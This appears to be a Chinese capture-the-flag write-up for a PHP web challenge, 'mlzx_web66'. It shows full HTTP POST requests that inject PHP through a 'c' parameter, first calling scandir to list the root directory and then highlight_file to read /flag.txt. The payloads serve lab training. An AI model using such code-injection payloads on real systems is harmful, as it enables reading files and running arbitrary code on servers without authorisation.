


# mlzx_web66

原地址：[GZCTF-challenges/mlzx/mlzx_web66](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web66)

使用 `c=var_dump(scandir('/'));` 或者 `c=print_r(scandir("/"));` 获取 flag 位置在 `/flag.txt`



```http
POST / HTTP/1.1
Host: 10.52.84.140:50660
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=var_dump(scandir('/'));
```

使用 `c=highlight_file('/flag.txt');` 获取 flag



```http
POST / HTTP/1.1
Host: 10.52.84.140:50660
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=highlight_file('/flag.txt');
```